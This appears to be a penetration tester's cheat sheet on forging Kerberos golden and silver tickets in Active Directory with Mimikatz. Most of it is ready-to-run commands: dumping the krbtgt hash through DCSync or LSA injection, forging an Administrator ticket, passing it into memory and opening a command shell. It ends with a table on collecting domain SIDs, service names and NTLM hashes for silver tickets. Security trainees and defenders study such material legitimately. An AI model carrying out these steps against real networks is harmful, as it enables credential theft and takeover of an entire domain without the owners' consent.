 A golden ticket is a TGT crafted with the KRBTGT AD serivce's password, using which you can imitate any account on the entire AD.
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
##### Requirements
Admin level access to any user on the AD

##### Dumping the krbtgt hash
Use Mimikatz to dump the hash:
```
./mimikatz.exe
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::dcsync /user:krbtgt@DOMAIN  // If you do not have Domain Controller privilege, use this.
lsadump::lsa /inject /name:krbtgt  // If you have DC Privilege, use this. For silver ticket creation, change the name.
```

##### Forging a Golden ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:MIMIKATZ_OUTPUT_SID /krbtgt:KRBTGT_NTLM
```
Note: the Key Distribution Center (`KDC`) will only check if the  `/user` -specified value is correct if the ticket is less than 20 minutes old. So as long as the ticket is older than 20 minutes, the specified user does not even need to exist.
`/sid`: The domain's SID (obtain via mimikatz output, or by using `Get-LocalUser -name krbtgt | select sid` and removing the last identifier (RID))
`/krbtgt`: The KRBTGT service's NTLM hash.

The ticket will now be stored in the current directory as "ticker.kirbi".

##### Exploiting using the Golden ticket
Load the ticket into memory:
```
kerberos::ptt TICKET_FILE
```
On another command prompt, check using:
```
klist // If it has a TGT, it has succeeded.
```
If you have RDP, create a remote shell:
```
misc::cmd
```
Otherwise, you can access whatever machine you want to as the Administrator via normal CMD, as long as you have the TGT active.

#### Silver tickets
https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
Silver tickets are generated the same way as golden tickets, but with a few extra parameters:

```
kerberos::golden /sid:DOMAIN_SID /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:TARGET_USER_NTLM /user:TARGET_USER
```


| Argument   | Description                                         | Example                                    | Command                                                          |
| ---------- | --------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- |
| `/sid`     | The domain SID (the user SID without the last part) | `S-1-5-21-1987370270-658905905-1781884369` | `whoami /user`                                                   |
| `/domain`  | The domain name                                     | `corp.com`                                 | `Get-Domain`                                                     |
| `/ptt`     | Enable passing the ticket                           |                                            |                                                                  |
| `/target`  | The full name of the target machine                 | `web04.corp.com`                           | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/service` | The protocol of the SPN                             | `http`                                     | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/rc4`     | The NTLM hash of the SPN                            | `4d28cf5252d39971419580a51484ca09`         | `sekursla::logonpasswords`                                       |
| `/user`    | The user, can be any.                               | `jeff`                                     | `Get-DomainUser`                                                 |
